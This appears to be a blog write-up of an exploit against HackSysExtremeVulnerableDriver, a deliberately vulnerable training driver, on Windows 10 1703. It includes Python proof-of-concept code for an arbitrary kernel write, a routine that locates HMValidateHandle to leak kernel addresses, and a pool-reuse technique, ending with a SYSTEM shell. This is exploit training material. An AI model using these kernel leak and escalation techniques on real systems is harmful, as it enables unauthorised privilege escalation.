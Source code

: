 ```yaml
---
layout:     post
title:      HackSysExtremeVulnerableDriver BitmapNecromancy
author:     wooy0ung
tags:       hevd
category:   exploit
---
```


>[Analysis Environment]  
>guest machine: Windows 10 1703 jul x64  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Save this code as python script file.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
buf = "A"*8 + "B"*8
buflen = len(buf)

kernel32.DeviceIoControl(hevDevice,0x22200B,buf,buflen,None,0,byref(c_ulong()),None)
```

Let's trigger the vulnerability.
```
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
[+] UserWriteWhatWhere: 0x0000000001080E18
[+] WRITE_WHAT_WHERE Size: 0x10
[+] UserWriteWhatWhere->What: 0x4141414141414141
[+] UserWriteWhatWhere->Where: 0x4242424242424242
[+] Triggering Arbitrary Overwrite
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
```
Well, the trigger work fine.

In Win10 1703, Microsoft nulled the pKernelAddress in the GDI_CELL struct killing the old infoleak, review the last challenge,
it is the key point for our address to get pvscan0 Addr.
```
class GDICELL64(Structure):
    _fields_ = [("pKernelAddress", c_void_p),
                ("wProcessId", c_ushort), 
                ("wCount", c_ushort),
                ("wUpper", c_ushort),
                ("wType", c_ushort),
                ("pUserAddress", c_void_p)]
```


## 0x002 Exploit it

Luckily, there is another method to exploit Win10 1703. First, we should get the HMValidateHandle Addr, this is necssaary. Don't be afraid, it is painless.

HmValidateHandle is a very interesting function as we can provide it with a handle to a Window object and it will return the pointer to the user mapped tagWND object on the Desktop Heap, isn't that useful!

We may get the Addr of user32.IsMenu method, then, try to find out . 
```
kd> u user32!IsMenu
USER32!IsMenu:
00007fff`17d489e0 4883ec28        sub     rsp,28h
00007fff`17d489e4 b202            mov     dl,2
00007fff`17d489e6 e805380000      call    USER32!HMValidateHandle (00007fff`17d4c1f0)
00007fff`17d489eb 33c9            xor     ecx,ecx
00007fff`17d489ed 4885c0          test    rax,rax
00007fff`17d489f0 0f95c1          setne   cl
00007fff`17d489f3 8bc1            mov     eax,ecx
00007fff`17d489f5 4883c428        add     rsp,28h
```
Pay attention, after first 0xe8 byte opcode may be the Pointer to HMValidateHandle offset.

Try to compare with 0xe8 for every bytes after the user32.IsMenu method.
```
def findHMValidateHandle():
	global pHMValidateHandle

	kernel32.LoadLibraryA.restype = HMODULE
	hUser32 = kernel32.LoadLibraryA("user32.dll")

	kernel32.GetProcAddress.restype = c_ulonglong
	kernel32.GetProcAddress.argtypes = (HMODULE,LPCSTR)
	pIsMenu = kernel32.GetProcAddress(hUser32,"IsMenu")
	debug_print("[>] Locating HMValidateHandle()")
	debug_print("\t[+] user32.IsMenu: 0x%X" % pIsMenu)

	offset = 0
	pHMValidateHandle_offset = 0
	while(offset < 0x100):
		byte = cast(pIsMenu + offset, POINTER(c_byte))
		# if byte == 0xE8(232 - 128 - 128 = -24)
		if byte.contents.value == -24:
			pHMValidateHandle_offset = pIsMenu + offset + 1
			break;
		offset = offset + 1
	debug_print("\t[+] Pointer to HMValidateHandle offset: 0x%X" % pHMValidateHandle_offset)
	
	HMValidateHandle_offset = (cast(pHMValidateHandle_offset, POINTER(c_long))).contents.value
	debug_print("\t[+] HMValidateHandle offset: 0x%X" % HMValidateHandle_offset)

	# Add 0xb because relative offset of call starts from next instruction after call, which is 0xb bytes from start of user32.IsMenu
	pHMValidateHandle = pIsMenu + HMValidateHandle_offset + 0xb
	debug_print("\t[+] HMValidateHandle pointer: 0x%X" % pHMValidateHandle)
```

Next step, allocate a large Window menu name, free it and then allocate our Bitmap which will reuse the free'd memory, because the Window menu name (lpszMenuName) is allocated in the same Kernel pool as our bitmap. if we make the menu name larger than 4kb it ends up in the large pool which has low'ish entropy making this UAF style leak 100% reliable.

How to ensure that our predictions are completely correct？

Well, we may try to compare the lpszMenuName of reuse block with the previous freed block. Therefore, the kernelAddr of Bitmap objects is fully predictable.
```
def alloc_free_windows():
	global classNumber

	previous_entry = 0

	while (1):
		plpszMenuName = allocate_free_window()
		if previous_entry == plpszMenuName:
			return plpszMenuName
		previous_entry = plpszMenuName
		classNumber = classNumber + 1
```

Now, we only need to do the same jobs of last challenge, then, I successfully got a system cmd.
![](/assets/img/exploit/2018-08-10-hacksys-extreme-vulnerable-driver-bitmapnecromancy/0x001.png)
